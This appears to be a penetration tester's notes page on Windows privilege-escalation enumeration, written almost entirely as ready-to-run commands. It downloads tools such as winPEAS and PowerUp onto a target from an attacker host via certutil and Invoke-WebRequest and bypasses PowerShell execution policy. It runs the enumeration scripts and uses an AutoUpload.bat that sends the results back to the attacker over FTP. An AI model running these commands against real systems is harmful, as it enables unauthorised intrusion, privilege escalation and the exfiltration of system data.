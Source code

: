 | PS Tools | WinPEAS | Seatbelt3 | Seatbelt4 |
| -------------- | -------------- | -------------- | -------------- |
| Sherlock.ps1  | winPEAS.bat | SeatbeltNet3.5AnyCPU.exe | SeatbeltNet4AnyCPU.exe |
| PowerUp.ps1 | winPEASany.exe | SeatbeltNet3.5x64.exe | SeatbeltNet4x64.exe |
| jaws-enum.ps1 | winPEASx64.exe | SeatbeltNet3.5x86.exe | SeatbeltNet4x86.exe |
|  | winPEASx86.exe |  |  |


Do you have RDP access? [[Port 3389 - RDP ~]]

#### Download to Kali
Kali:
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEAS.bat && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASany.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx64.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx86.exe && wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1 && wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 && wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put JAWS-Enum.txt >> upload.txt
echo put PowerUp.txt >> upload.txt
echo put Sherlock.txt >> upload.txt
echo put winPEASx64.txt >> upload.txt
echo put systeminfo.txt >> upload.txt
echo put PrivescCheck.txt >> upload.txt

echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

![[Python#Server]]

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==

Check to see if you have PowerShell access:

```command prompt - windows
where /r C:\Windows powershell.exe
```

May need to run PowerShell with full path.

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri 'http://$KALI/winPEAS.bat' -OutFile winPEAS.bat; Invoke-WebRequest -Uri 'http://$KALI/winPEASany.exe' -OutFile winPEASany.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx64.exe' -OutFile winPEASx64.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx86.exe' -OutFile winPEASx86.exe; Invoke-WebRequest -Uri 'http://$KALI/Sherlock.ps1' -OutFile Sherlock.ps1; Invoke-WebRequest -Uri 'http://$KALI/PowerUp.ps1' -OutFile PowerUp.ps1; Invoke-WebRequest -Uri 'http://$KALI/jaws-enum.ps1' -OutFile jaws-enum.ps1; Invoke-WebRequest -Uri 'http://$KALI/PrivescCheck.ps1' -OutFile PrivescCheck.ps1; Invoke-WebRequest -Uri 'http://$KALI/AutoUpload.bat' -OutFile AutoUpload.bat
```

#### Transfer to target - CMD  - ==REMEMBER TO CHANGE $KALI TO IP!==
```command prompt - windows
mkdir %TEMP%\Tools && cd %TEMP%\Tools && certutil -urlcache -split -f http://$KALI/winPEAS.bat && certutil -urlcache -split -f http://$KALI/winPEASany.exe && certutil -urlcache -split -f http://$KALI/winPEASx64.exe && certutil -urlcache -split -f http://$KALI/winPEASx86.exe && certutil -urlcache -split -f http://$KALI/Sherlock.ps1 && certutil -urlcache -split -f http://$KALI/PowerUp.ps1 && certutil -urlcache -split -f http://$KALI/jaws-enum.ps1 && certutil -urlcache -split -f http://$KALI/PrivescCheck.ps1 && certutil -urlcache -split -f http://$KALI/AutoUpload.bat
```

#### Execute tools 
```powershell - winodws
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1; systeminfo > systeminfo.txt; . .\Sherlock.ps1; Find-AllVulns > Sherlock.txt; . .\PowerUp.ps1; Invoke-AllChecks > PowerUp.txt; .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt; .\winPEASx64.exe > winPEASx64.txt; . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended > PrivescCheck.txt
```

#### Start FTP server and upload results

[[Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```

#### windows-exploit-suggester.py
AutoUpload will have uploaded the systeminfo.txt file to kali through FTP.

```bash - kali
chmod +x windows-exploit-suggester.py
```

```bash - kali
sudo ./windows-exploit-suggester.py --update
```

```bash - kail
pip install xlrd --upgrade
```

If pip is not installed:
[[Python#Install pip]]

![[Pasted image 20221110100601.png]]

From the above image, we need the "2022-02-03-mssb.xls" file:

```bash - kail
sudo ./windows-exploit-suggester.py --database 2022-02-04-mssb.xls --systeminfo systeminfo.txt
```

[[3._Kernel Exploits]]
